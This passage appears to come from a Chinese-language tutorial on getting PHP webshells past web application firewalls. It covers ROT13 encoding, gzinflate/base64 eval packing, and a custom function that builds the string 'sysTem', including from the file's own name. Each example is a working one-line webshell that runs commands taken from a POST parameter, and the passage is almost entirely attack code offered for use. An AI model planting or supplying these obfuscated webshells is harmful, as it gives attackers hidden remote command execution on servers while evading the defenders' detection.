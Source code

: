 ### 1.3 ROT13 编码

```php
$f = str_rot13('flfgrz');  //解密后为 system 高危函数
$f($_POST['aabyss']);      //system($_POST['aabyss']);
```

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对 WAF 进行 ByPass

### 1.4 Gzip 压缩加密

我先举一个 `phpinfo()` 加密后的示例：

```php
/*Protected by AabyssZG*/
eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA'))); 
```

加密手法可以看我写的博客： [https://blog.zgsec.cn/archives/147.html](https://blog.zgsec.cn/archives/147.html)

## 2# 字符串混淆处理绕过

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过 WAF 的检测逻辑，如下：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$f = confusion(976534);         //sysTem（高危函数）
$f($_POST['aabyss']);           //sysTem($_POST['aabyss']);
```

### 2.2 自定义函数 + 文件名混淆

同样，可以配合文件名玩出一些花活，我们建一个 PHP 名字为 `976534.php`：

```php
function confusion($a){
    $s = ['A','a','b', 'y', 's', 's', 'T', 'e', 'a', 'm'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$f = confusion(intval(substr(__FILE__, -10, 6)));   //sysTem（高危函数）
//__FILE__为 976534.php
//substr(__FILE__, -10, 6) 即从文件名中提取出 976534
//confusion(intval(976534)) 即输出了 sysTem（高危函数），拼接即可
$f($_POST['aabyss']);        //sysTem($_POST['aabyss']);
```
